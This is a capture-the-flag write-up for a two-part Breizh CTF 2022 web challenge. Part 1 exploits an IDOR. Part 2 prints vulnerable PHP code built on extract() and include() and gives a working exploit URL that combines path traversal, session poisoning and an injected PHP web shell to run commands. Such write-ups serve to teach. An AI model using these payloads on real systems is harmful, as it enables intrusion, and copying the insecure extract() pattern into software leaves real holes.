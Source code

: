 +++                                                                           
title = "[Breizh CTF 2022 - web] Les crèmes de Mamie Loic"                  
tags = ["ctf", "ret2school", "Breizh CTF", "Tek", "web", "2022"]      
date = "2022-04-05"    
+++

## Les crèmes de Mamie Loic (1/2)

The first challenge was an IDOR.  
We have to get the basket of the user `mamie`, so we can just change `/api/getbasket?name=YOUR_USER` to `/api/getbasket?name=mamie` and get the flag : `https://les-cremes-de-madame-loic.ctf.bzh:21000/api/getbasket?name=mamie`  
```
La recette secrete est composee de :
- Lait
- Un maximum de BZHCTF{m4m13_n4_p4s_4ppr1s_d3_c3s_3err3urs!!}
- Caramel
Il faudra aussi penser a mettre des images pour les produits et a gerer la migration de base de donnees, l'implémentation a commencé ici : /mamiesecret
Pour se faire, n'oublie pas d'utiliser les identifiants suivants :
- mamiemanager / sxEpnMggi8LtD1y198Iy
```


## Les crèmes de Mamie Loic (2/2)
We now have the credentials for the user `mamiemanager` and the knowledge of the endpoint `/mamiesecret`.  
Here is the source code :  
```php
  1 <?php
  2 session_start();
  3 if(!isset($_SESSION["name"]) && $_SESSION["name"] !== "mamiemanager")
  4 {
  5     header("Location: /");
  6     die();
  7 }
  8
  9 extract($_GET);
 10
 11 if(isset($page)) include("pages/".$page);
 12 else include("pages/factures.php");
 13
 14 if(isset($source))
 15 {
 16     die(show_source($_SERVER["SCRIPT_FILENAME"]));
 17 }
 18 ?>
```

This is the documentation of the function `extract` :  
```
extract — Import variables into the current symbol table from an array

Warning
Do not use extract() on untrusted data, like user input (e.g. $_GET, $_FILES).
```
:)  
The LFI at the line 11 is obvious.  
We can exploit the call to `extract` to overwrite `$_SERVER["SCRIPT_FILENAME"]` and get an arbitrary file read, but it won't be useful here.  
With the LFI, we can include file in `/proc/self/fd/` which contains the list of files opened by the current process.  
With a bit of bruteforce we find the session file at `/proc/self/fd/10`. The variable `name` is already there, we can use the call to `extract` to overwrite it and insert some php code : `https://les-cremes-de-madame-loic.ctf.bzh:21000/mamiesecret?page=../../../../../../../../../../../../proc/self/fd/10&_SESSION[name]=<?php echo system($_GET["cmd"]);?>&cmd=id`

`BZHCTF{m4m13_4ur41t_du_3ng4g3r_un3_p3rs0nn3_plus_comp3t3nt3s!!}`
